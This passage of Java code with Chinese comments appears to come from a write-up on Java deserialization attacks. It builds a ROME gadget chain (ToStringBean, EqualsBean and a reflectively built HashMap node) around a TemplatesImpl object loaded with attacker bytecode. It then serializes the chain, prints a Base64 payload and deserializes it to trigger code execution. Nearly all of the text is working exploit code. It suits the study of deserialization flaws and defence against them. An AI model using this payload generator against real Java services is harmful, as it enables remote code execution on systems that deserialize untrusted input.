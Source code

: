 ```plain
        factory.setAccessible(true);
        bytecodes.setAccessible(true);
        // 修改变量值
        name.set(templates,"asdasd");
        clazz.set(templates,null);
        factory.set(templates, new TransformerFactoryImpl());
        bytecodes.set(templates,targetByteCodes);
        return templates;
    }

    public static void setFieldValue(Object o, String fieldName, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(o,value);
    }
    public static byte[] serialize(Object o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(o);
        return bao.toByteArray();
    }

    public static void unserialize(byte[] b) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bis = new ByteArrayInputStream(b);
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
    }
}
```

rome.java

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.util.HashMap;

public class rome {

    public static void main(String[] args) throws Exception{
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, template);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        HashMap hashmap = new HashMap();
        util.setFieldValue(hashmap,"size",2);
        Class nodeC = Class.forName("java.util.HashMap$Node");
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 1);
        Array.set(tbl, 0, nodeCons.newInstance(0, equalsBean, 1, null));
        util.setFieldValue(hashmap,"table",tbl);

        byte[] ser = util.serialize(hashmap);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
```